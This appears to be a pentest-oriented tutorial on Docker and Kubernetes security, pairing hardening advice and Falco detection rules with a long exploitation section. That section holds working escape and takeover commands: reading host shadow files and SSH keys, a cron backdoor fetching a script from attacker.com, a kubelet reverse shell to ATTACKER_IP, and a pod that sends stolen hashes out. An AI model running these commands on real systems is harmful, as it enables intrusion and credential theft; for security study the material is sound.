

# Container Security

> **Containers package applications and their dependencies into isolated units — but weak isolation, misconfigurations, and vulnerable images can let attackers escape to the host or compromise entire Kubernetes clusters.**

---

## 🧠 What Is It?

Think of a container as a locked shipping container on a cargo ship. The ship is the host OS. Normally, each container is isolated — your box can't affect anyone else's box. But if you find a crack in the container wall, a way to borrow the ship's master key, or you discover the captain left the engine room accessible, you can break out and take control of the entire ship.

**Why it matters:** Kubernetes now runs a huge fraction of production cloud infrastructure. Container escapes and cluster compromises are critical-severity findings in any cloud pentest.

---

## 🏗️ How It Works

### Linux Isolation Primitives

Containers are NOT VMs — they share the host kernel. Isolation comes from Linux kernel features:

| Namespace | Isolates | Example |
|---|---|---|
| `pid` | Process IDs | Container sees PIDs starting at 1 |
| `net` | Network stack | Container has its own network interfaces |
| `mnt` | Filesystem mounts | Container has its own root filesystem view |
| `uts` | Hostname and domain | Container has its own hostname |
| `ipc` | IPC resources | Shared memory, semaphores isolated |
| `user` | User/group IDs | UID 0 in container ≠ UID 0 on host |
| `cgroup` | cgroup hierarchy | Resource limits per container |
| `time` | System clocks | (Linux 5.6+) Different clock offsets |

### cgroups — Resource Control

```
/sys/fs/cgroup/
├── cpu/docker/CONTAINER_ID/     # CPU limits
├── memory/docker/CONTAINER_ID/ # Memory limits (OOM killer)
├── blkio/docker/CONTAINER_ID/  # Block I/O limits
└── devices/docker/CONTAINER_ID/# Device access control
```

### Linux Capabilities

Instead of binary root/non-root, capabilities break root powers into units:

| Capability | What It Allows | Exploit Risk |
|---|---|---|
| `CAP_SYS_ADMIN` | Mount, namespaces, audit | Very High — nearly root |
| `CAP_NET_ADMIN` | Network config, iptables | High |
| `CAP_SYS_PTRACE` | ptrace any process | High — debug other containers |
| `CAP_DAC_OVERRIDE` | Bypass file permissions | High |
| `CAP_SETUID` | Change UIDs | Medium |
| `CAP_NET_RAW` | Raw sockets, sniff traffic | Medium |
| `CAP_SYS_MODULE` | Load kernel modules | Critical — load rootkit |

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Docker Security Architecture

```
Docker Host
├── Docker Daemon (dockerd)   ← runs as root, listens on unix socket
├── containerd                ← manages container lifecycle
├── runc                      ← low-level OCI runtime, creates containers
└── Containers
    ├── Namespaces (isolation)
    ├── cgroups (resource limits)
    ├── Seccomp profile (syscall filtering)
    ├── AppArmor/SELinux (mandatory access control)
    └── Capabilities (granular root powers)
```

### Dockerfile Best Practices vs Anti-Patterns

```dockerfile
# DANGEROUS Dockerfile
FROM ubuntu:latest                     # unpinned, unknown contents
RUN apt-get install -y curl wget       # extra attack surface
COPY . /app                            # may copy .env, secrets
RUN pip install -r requirements.txt
ENV DATABASE_PASSWORD=SuperSecret123   # SECRET IN IMAGE LAYER!
USER root                              # running as root
EXPOSE 0.0.0.0                         # bind to all interfaces

# SECURE Dockerfile
FROM python:3.11-slim@sha256:abc123    # pinned digest
WORKDIR /app
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY --chown=appuser:appuser . .
RUN useradd -r -s /bin/false appuser
USER appuser                           # non-root
EXPOSE 8080
HEALTHCHECK --interval=30s CMD curl -f http://localhost:8080/health
```

### Kubernetes Security Architecture

```
Kubernetes Control Plane
├── API Server (kube-apiserver)   ← all requests go through here
│   ├── Authentication (x509, tokens, OIDC)
│   ├── Authorization (RBAC, ABAC, Webhook)
│   └── Admission Control (validation, mutation)
├── etcd                          ← stores ALL cluster state including secrets
├── Scheduler
└── Controller Manager

Worker Nodes
├── kubelet (port 10250)          ← manages pods on the node
├── kube-proxy
└── Container Runtime (containerd/CRI-O)
    └── Pods
        ├── Service Account Token  (auto-mounted at /var/run/secrets/...)
        ├── Volumes
        └── Containers
```

### Kubernetes RBAC Components

```yaml
# Role: namespace-scoped permissions
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: production
  name: pod-reader
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list", "watch"]

# ClusterRole: cluster-wide permissions
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get", "list"]   # DANGEROUS if given to wrong principal

# RoleBinding: attaches role to subject
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-pods
  namespace: production
subjects:
- kind: ServiceAccount
  name: webapp
  namespace: production
roleRef:
  kind: Role
  name: pod-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## 💥 Exploitation Step-by-Step

### Escape 1: Privileged Container

**Detection:**
```bash
# Check if running privileged inside container
cat /proc/self/status | grep CapEff
# CapEff: 0000003fffffffff  ← ALL capabilities! Privileged!

# Or check
capsh --decode=$(cat /proc/self/status | grep CapEff | awk '{print $2}')

# Check with docker inspect from outside
docker inspect CONTAINER_ID --format '{{.HostConfig.Privileged}}'
```

**Exploitation:**
```bash
# Step 1: List block devices (privileged can see host devices)
fdisk -l
lsblk
# /dev/xvda    20G   ← host root disk!

# Step 2: Mount host filesystem
mkdir /mnt/host
mount /dev/xvda1 /mnt/host

# Step 3: Read sensitive host files
cat /mnt/host/etc/shadow
cat /mnt/host/root/.ssh/id_rsa
cat /mnt/host/home/*/.bash_history

# Step 4: Write backdoor (cron job)
echo '* * * * * root curl http://attacker.com/shell.sh | bash' >> /mnt/host/etc/cron.d/backdoor

# Step 5: Add SSH key for root access
mkdir -p /mnt/host/root/.ssh
echo "ssh-rsa AAAAB3NzaC1... attacker@host" >> /mnt/host/root/.ssh/authorized_keys
chmod 600 /mnt/host/root/.ssh/authorized_keys
chmod 700 /mnt/host/root/.ssh

# Step 6: Escape into host via nsenter (if procfs visible)
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash
# Now you're in the host!
```

**Advanced privileged escape using cgroups:**
```bash
# Using notify_on_release escape (no disk needed)
d=$(dirname $(ls -x /s*/fs/c*/*/r | head -n1))
mkdir -p $d/w
echo 1 > $d/w/notify_on_release
t=$(sed -n 's/.*\sdevtmpfs\s\(\S*\).*/\1/p' /proc/mounts)
touch $t/.x
echo $t/.x > $d/release_agent
echo "#!/bin/sh
id > $t/proof.txt
cat /etc/shadow > $t/shadow.txt" > $t/.x
chmod +x $t/.x
sh -c "echo 0 > $d/w/cgroup.procs"
sleep 1
cat $t/proof.txt
cat $t/shadow.txt
```

---

### Escape 2: Docker Socket Mounted

**Detection:**
```bash
# Check for docker socket inside container
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker ... /var/run/docker.sock  ← socket present!

# Or check mounts
cat /proc/mounts | grep docker.sock

# Check with docker inspect
docker inspect CONTAINER_ID --format '{{.HostConfig.Binds}}'
# ["/var/run/docker.sock:/var/run/docker.sock"]
```

**Exploitation:**
```bash
# Install docker client inside container if not present
apt-get update && apt-get install -y docker.io 2>/dev/null || \
curl -fsSL https://get.docker.com | sh

# Verify you can reach the daemon
docker -H unix:///var/run/docker.sock version
docker -H unix:///var/run/docker.sock ps

# Escape: run a privileged container mounting host root
docker -H unix:///var/run/docker.sock run \
  -it \
  --privileged \
  --pid=host \
  --net=host \
  -v /:/host \
  debian:latest \
  chroot /host /bin/bash

# Now inside the chroot → full host access
id          # uid=0(root)
hostname    # actual hostname of host
cat /etc/shadow
```

**Via HTTP API (if Docker daemon exposed on TCP):**
```bash
# Check for exposed Docker API
curl http://TARGET:2375/version

# List containers
curl http://TARGET:2375/containers/json

# Create and start a privileged container
curl -X POST http://TARGET:2375/containers/create \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "debian:latest",
    "Cmd": ["bash", "-c", "cat /host/etc/shadow > /tmp/output"],
    "HostConfig": {
      "Privileged": true,
      "Binds": ["/:/host"]
    }
  }'

curl -X POST http://TARGET:2375/containers/CONTAINER_ID/start
```

---

### Escape 3: Sensitive Host Path Mounted

```bash
# Check mounts inside container
cat /proc/mounts
mount | grep -v "proc\|sysfs\|tmpfs\|devpts"

# Common dangerous mounts:
# /etc → can overwrite passwd, cron, sudoers
# /root → can write SSH keys
# /var/log → log injection
# /usr → overwrite system binaries

# If /etc is mounted:
echo "attacker:x:0:0:root:/root:/bin/bash" >> /etc/passwd
# → SSH as attacker with UID 0

# If /root is mounted:
mkdir -p /root/.ssh
echo "ssh-rsa AAAA... attacker" >> /root/.ssh/authorized_keys

# If /proc is over-exposed — sysrq escape
echo 1 > /proc/sysrq-trigger  # crash the host

# Check for dangerous /proc capabilities
cat /proc/self/mounts | grep -v "proc\|sys\|dev\|tmpfs"
```

---

### Escape 4: CVE Exploits

#### CVE-2019-5736 — runc Container Escape

**Affected:** runc ≤ 1.0-rc6, Docker < 18.09.2

**Description:** Attacker inside a container can overwrite the host's runc binary to execute arbitrary code as root on the host when a new container is started.

```bash
# Check vulnerable runc version
runc --version  # inside container or on host

# Proof of concept (run inside a privileged-enough container)
# 1. Overwrite /proc/self/exe (which points to runc) during exec
# 2. runc binary on host gets replaced with attacker payload

# Simplified PoC concept:
# When the host runs "docker exec" into a container,
# the container can overwrite /proc/self/exe → replaces runc

# Real exploit:
# https://github.com/Frichetten/CVE-2019-5736-PoC

cat > main.go << 'EOF'
package main

import (
    "fmt"
    "io/ioutil"
    "os"
    "strconv"
    "strings"
)

var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

func main() {
    // Overwrite /proc/self/exe with payload
    fd, err := os.OpenFile("/proc/self/exe", os.O_RDONLY, 0777)
    if err != nil {
        return
    }
    defer fd.Close()
    
    // ... full exploit logic
    fmt.Println("CVE-2019-5736 executed")
}
EOF
```

#### CVE-2020-15257 — Containerd Host Network Namespace

**Affected:** containerd < 1.3.9, < 1.4.3

**Description:** Containers running in host network namespace can connect to containerd's UNIX socket and escalate to host compromise.

```bash
# Check if running in host network namespace
cat /proc/net/fib_trie | grep LOCAL | head -5
# If shows host IPs → host network namespace!

# Check containerd socket
ls -la /run/containerd/containerd.sock

# Exploit: use containerd API to create privileged container
# https://github.com/cdk-team/CDK  -- full exploitation toolkit

# Using CDK
./cdk run shim-pwn reverse ATTACKER_IP PORT
```

---

### Kubernetes Attack: Dashboard Unauthenticated Access

```bash
# Scan for exposed dashboard (default NodePort 30000-32767 or 8001)
nmap -sV -p 30000-32767 K8S_NODE_IP
curl -k https://K8S_NODE_IP:30000/
curl http://K8S_NODE_IP:8001/api/v1/namespaces

# If dashboard is exposed without auth:
# Navigate to https://K8S_IP:PORT
# Skip login if available
# Access Secrets section
# Create privileged pod

# Via kubectl proxy
kubectl proxy --port=8001 &
curl http://127.0.0.1:8001/api/v1/namespaces/default/secrets
```

---

### Kubernetes Attack: Kubelet API (Port 10250)

```bash
# Anonymous access to kubelet (default in older clusters)
# Get all running pods on the node
curl -sk https://K8S_NODE_IP:10250/pods | python3 -m json.tool

# Get logs from a pod
curl -sk https://K8S_NODE_IP:10250/logs/CONTAINER_LOG_PATH

# EXECUTE commands in a running container!
curl -sk https://K8S_NODE_IP:10250/run/NAMESPACE/POD_NAME/CONTAINER_NAME \
  -d "cmd=id"

curl -sk https://K8S_NODE_IP:10250/run/default/webapp-7d4b9f8-xkzpt/webapp \
  -d "cmd=cat /etc/passwd"

# Reverse shell via kubelet exec
curl -sk https://K8S_NODE_IP:10250/run/default/webapp/webapp \
  -d "cmd=bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"
```

---

### Kubernetes Attack: etcd Access (Port 2379)

```bash
# etcd stores ALL Kubernetes secrets in plaintext (at rest unencrypted by default)
# Accessing etcd = reading every secret in the cluster

# Install etcd client
apt-get install -y etcd-client

# Connect (no auth in misconfigured setups)
etcdctl --endpoints=http://ETCD_IP:2379 get / --prefix --keys-only

# Get ALL Kubernetes secrets
etcdctl --endpoints=http://ETCD_IP:2379 get /registry/secrets --prefix

# Get specific secret
etcdctl --endpoints=http://ETCD_IP:2379 \
  get /registry/secrets/default/my-secret \
  | strings

# With TLS (more common)
etcdctl --endpoints=https://ETCD_IP:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  get /registry/secrets --prefix --keys-only
```

---

### Kubernetes Attack: Service Account Token Exploitation

```bash
# Every pod has a service account token auto-mounted (Kubernetes < 1.24)
# Read from inside a pod:
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace

# Export token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
API_SERVER="https://kubernetes.default.svc"
CACERT="/var/run/secrets/kubernetes.io/serviceaccount/ca.crt"

# Check what you can do
kubectl --token=$TOKEN --certificate-authority=$CACERT \
  --server=$API_SERVER auth can-i --list

# Typical output for misconfigured service accounts:
# Resources  Non-Resource URLs  Resource Names  Verbs
# *.*        []                 []              [*]   ← god mode

# If you can list secrets:
kubectl --token=$TOKEN \
  --certificate-authority=$CACERT \
  --server=$API_SERVER \
  get secrets --all-namespaces

# Get a secret value
kubectl --token=$TOKEN \
  --certificate-authority=$CACERT \
  --server=$API_SERVER \
  get secret my-db-secret -o jsonpath='{.data.password}' | base64 -d

# If you can create pods → deploy privileged pod
cat > evil-pod.yaml << 'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
spec:
  hostPID: true
  hostNetwork: true
  hostIPC: true
  containers:
  - name: evil
    image: debian:latest
    command: ["/bin/bash", "-c"]
    args: ["nsenter -t 1 -m -u -n -i /bin/bash -c 'cat /etc/shadow > /tmp/shadow; curl http://attacker.com/ex?d=$(cat /tmp/shadow|base64)'"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
EOF

kubectl --token=$TOKEN --certificate-authority=$CACERT \
  --server=$API_SERVER apply -f evil-pod.yaml
```

---

### Kubernetes Attack: RBAC Misconfiguration Paths

```bash
# wildcard permissions (worst case)
# ClusterRole with: resources: ["*"], verbs: ["*"]

# Dangerous: can list and read secrets in any namespace
# Find service accounts with secret access
kubectl get clusterrolebindings -o json | python3 -c "
import json, sys
data = json.load(sys.stdin)
for item in data['items']:
    role = item['roleRef']['name']
    subjects = item.get('subjects', [])
    for s in subjects:
        print(f\"{s.get('kind')} {s.get('name')} → {role}\")
"

# Check if default service account has dangerous permissions
kubectl auth can-i list secrets \
  --as=system:serviceaccount:default:default

# create pods → escape to node
# bind/escalate → give yourself more RBAC perms
# impersonate → act as another user

# Impersonation abuse (if you have impersonate permission)
kubectl --as=system:admin get secrets --all-namespaces
kubectl --as=cluster-admin create clusterrolebinding pwned \
  --clusterrole=cluster-admin \
  --serviceaccount=default:default
```

---

## 🛠️ Tools

### kube-hunter — Kubernetes Penetration Testing

```bash
pip3 install kube-hunter

# Remote scan
kube-hunter --remote TARGET_IP

# Internal scan (run inside cluster)
kube-hunter --pod

# List all tests
kube-hunter --list

# Active mode (will attempt exploitation)
kube-hunter --remote TARGET_IP --active

# Output as JSON
kube-hunter --remote TARGET_IP --report json > kube-hunter-results.json
```

### kube-bench — CIS Benchmark

```bash
# Run as pod on each node
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-bench/main/job.yaml
kubectl logs -l app=kube-bench

# Or run directly on a node
docker run --pid=host --userns=host --rm -v /etc:/etc:ro -v /var:/var:ro \
  -v /usr/lib/systemd:/usr/lib/systemd:ro \
  -v /lib/systemd:/lib/systemd:ro \
  --privileged \
  aquasec/kube-bench:latest

# Check specific CIS sections
kube-bench run --targets master  # control plane
kube-bench run --targets node    # worker nodes
kube-bench run --targets etcd
kube-bench run --targets policies
```

### Trivy for Kubernetes

```bash
# Full cluster scan
trivy k8s --report all cluster

# Summary report
trivy k8s --report summary cluster

# Specific namespace
trivy k8s --report all --namespace production cluster

# Specific resource
trivy k8s --report all pod/webapp

# Scan image in registry
trivy image company/app:latest --severity CRITICAL

# Kubernetes SBOM
trivy k8s --format cyclonedx cluster
```

### Falco — Runtime Security

```bash
# Install
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm install falco falcosecurity/falco --set falco.grpc.enabled=true

# Custom rules example
cat > /etc/falco/custom-rules.yaml << 'EOF'
- rule: Container Escape Attempt
  desc: Detect attempts to escape a container
  condition: >
    container and
    (evt.type = mount or
     (evt.type = open and fd.name startswith /proc/1/) or
     (evt.type = open and fd.name = /var/run/docker.sock))
  output: >
    Possible container escape (user=%user.name command=%proc.cmdline
    container=%container.name image=%container.image.repository)
  priority: CRITICAL

- rule: Privileged Container Started
  desc: A privileged container was started
  condition: >
    container_started and container.privileged=true
  output: >
    Privileged container started (user=%user.name
    command=%proc.cmdline container=%container.name image=%container.image.repository)
  priority: WARNING

- rule: Terminal Shell in Container
  desc: A shell was spawned by a non-shell parent in a container
  condition: >
    spawned_process and container and
    proc.name in (shell_binaries)
  output: >
    Shell spawned in container (user=%user.name container=%container.name
    shell=%proc.name parent=%proc.pname image=%container.image.repository)
  priority: NOTICE

- rule: Write below binary dir
  desc: an attempt to write to /bin, /sbin, etc
  condition: >
    bin_dir and evt.dir = < and open_write and not package_mgmt_procs
  output: >
    File below binary dir opened for writing (user=%user.name
    command=%proc.cmdline file=%fd.name container=%container.name)
  priority: ERROR
EOF

# Start falco with custom rules
falco -r /etc/falco/custom-rules.yaml

# View alerts
kubectl logs -n falco -l app.kubernetes.io/name=falco
```

### CDK — Container Escape Toolkit

```bash
# CDK is an exploit toolkit for containers
# Download
wget https://github.com/cdk-team/CDK/releases/latest/download/cdk_linux_amd64
chmod +x cdk_linux_amd64

# Evaluate container security
./cdk_linux_amd64 evaluate

# List escape techniques available
./cdk_linux_amd64 run --list

# Auto-escape attempt
./cdk_linux_amd64 auto-escape ATTACKER_IP ATTACKER_PORT

# Specific exploits
./cdk_linux_amd64 run docker-sock-pwn
./cdk_linux_amd64 run mount-disk
./cdk_linux_amd64 run shim-pwn ATTACKER_IP PORT

# Kubernetes exploitation
./cdk_linux_amd64 run k8s-configmap-secret-dump-all
./cdk_linux_amd64 run k8s-shadow-apiserver ATTACKER_IP
```

### kubeaudit

```bash
# Install
go install github.com/Shopify/kubeaudit@latest

# Audit all cluster resources
kubeaudit all

# Specific checks
kubeaudit image         # image not pinned by digest
kubeaudit privesc       # privilege escalation paths
kubeaudit securitycontext  # missing security context
kubeaudit netpols       # missing network policies
kubeaudit rbac          # RBAC misconfigurations
kubeaudit nonroot       # containers running as root
kubeaudit caps          # dangerous capabilities

# Audit specific namespace
kubeaudit all -n production

# Output as JSON
kubeaudit all --json > kubeaudit-results.json
```

---

## 🔍 Detection

### Container Escape Indicators

| Indicator | Detection Method |
|---|---|
| Mount syscall from container | Falco rule: `evt.type = mount and container` |
| Access to `/proc/1/` | Falco: `fd.name startswith /proc/1/` |
| Docker socket access | Falco: `fd.name = /var/run/docker.sock` |
| Shell spawned in container | Falco: `spawned_process and proc.name in (sh,bash,zsh)` |
| New binary execution | Falco: `open_write and bin_dir` |
| Network tool usage | Falco: `proc.name in (nmap, netcat, tcpdump)` |

### Kubernetes Attack Indicators

| Attack | Audit Log Event |
|---|---|
| Kubelet anonymous access | Kubelet logs: `401/403 from external IP` |
| Service account escalation | `k8s.io/audit: create clusterrolebinding` |
| Secret enumeration | `k8s.io/audit: list secrets` |
| Privileged pod creation | `k8s.io/audit: create pods` with `privileged: true` |
| Exec into pod | `k8s.io/audit: create pods/exec` |
| etcd direct access | Direct TCP connections to port 2379 |

---

## 🛡️ Mitigation

### Docker Hardening

```bash
# Run as non-root, drop all caps, read-only filesystem
docker run \
  --user 1000:1000 \
  --cap-drop ALL \
  --cap-add NET_BIND_SERVICE \
  --read-only \
  --tmpfs /tmp:size=64m \
  --no-new-privileges \
  --security-opt no-new-privileges:true \
  --security-opt seccomp=/etc/docker/seccomp-default.json \
  --security-opt apparmor=docker-default \
  --pids-limit 100 \
  --memory 512m \
  --cpu-quota 50000 \
  company/app:latest

# Disable privileged containers via daemon config
cat > /etc/docker/daemon.json << 'EOF'
{
  "no-new-privileges": true,
  "default-ulimits": {"nofile": {"Hard": 64000, "Name": "nofile", "Soft": 64000}},
  "seccomp-profile": "/etc/docker/seccomp-default.json",
  "userns-remap": "default"
}
EOF
```

### Kubernetes Security Context

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    runAsGroup: 1000
    fsGroup: 2000
    seccompProfile:
      type: RuntimeDefault
  automountServiceAccountToken: false  # disable unless needed
  containers:
  - name: app
    image: company/app:sha256@abc123  # pinned digest
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop:
        - ALL
        add: []
    resources:
      limits:
        memory: "256Mi"
        cpu: "500m"
      requests:
        memory: "128Mi"
        cpu: "250m"
    volumeMounts:
    - name: tmp
      mountPath: /tmp
  volumes:
  - name: tmp
    emptyDir: {}
```

### Network Policy — Deny All + Whitelist

```yaml
# Default deny all ingress/egress in a namespace
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
---
# Allow only necessary traffic
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-webapp
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: webapp
  policyTypes:
  - Ingress
  - Egress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          role: loadbalancer
    ports:
    - protocol: TCP
      port: 8080
  egress:
  - to:
    - podSelector:
        matchLabels:
          app: database
    ports:
    - protocol: TCP
      port: 5432
```

---

## 📚 References

- [OWASP Docker Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)
- [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker)
- [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes)
- [kube-hunter GitHub](https://github.com/aquasecurity/kube-hunter)
- [CDK — Container Escape Toolkit](https://github.com/cdk-team/CDK)
- [Falco GitHub](https://github.com/falcosecurity/falco)
- [Kubernetes Security Documentation](https://kubernetes.io/docs/concepts/security/)
- **CVE-2019-5736** — runc container escape (CVSS 8.6)
- **CVE-2020-15257** — containerd abstract socket exposure (CVSS 5.2)
- **CVE-2022-0811** — CRI-O container escape via `kernel.core_pattern` (CVSS 8.8)
- **CVE-2021-25741** — Kubernetes symlink escape from emptyDir (CVSS 8.1)
- **CVE-2018-15664** — Docker path traversal in `cp` command (CVSS 7.5)
- [Bad Pods — Kubernetes Pod Privilege Escalation](https://github.com/BishopFox/badPods)
- [HackTricks Container Security](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security)
